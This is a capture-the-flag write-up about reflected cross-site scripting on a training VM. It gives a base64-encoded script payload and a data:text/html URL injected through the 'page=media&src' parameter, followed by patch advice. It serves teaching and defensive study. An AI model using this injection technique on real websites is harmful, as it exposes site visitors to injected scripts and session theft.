 # [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)

## Writeup

On the main page, there is a link on the second NSA image that redirects to `page=media&src=nsa`. This page seemingly renders out whatever we specify in source. We can preform cross site scripting by changing what src renders.

We can do this by setting the src data to be text/html, then passing our payload in base64. Then by setting the src to this payload we can preform cross site scripting.

An example of such payload:
```bash
$> echo "<script>alert(1)</script>" | base64
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pgo=
```

How to execute the payload:
```
http://<VM IP>/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pgo=
```

Navigating to the site causes the flag to be given to us.

## Possible Patches
Sanitize input and parameters, encode problematic characters such as `< > / &`, and use a sink element instead of src, for example `element.classname`.
